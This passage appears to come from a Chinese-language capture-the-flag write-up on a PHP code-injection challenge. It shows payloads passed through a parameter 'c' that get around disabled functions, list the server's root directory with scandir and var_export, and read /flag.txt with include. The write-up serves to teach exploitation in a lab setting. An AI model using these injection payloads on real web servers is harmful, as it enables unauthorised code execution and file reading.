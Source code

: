 ![image-20250404162707148](./assets/image-20250404162707148.png)



还是禁用highlight_file()



尝试扫描根目录

```
c=var_dump(scandir("/"));
```

但是var_dump()被禁用了

var_export()可以

```
c=var_export(scandir("/"));
```

![image-20250404163157733](./assets/image-20250404163157733.png)



读取

```
c=include("/flag.txt");
```

![image-20250404163225332](./assets/image-20250404163225332.png)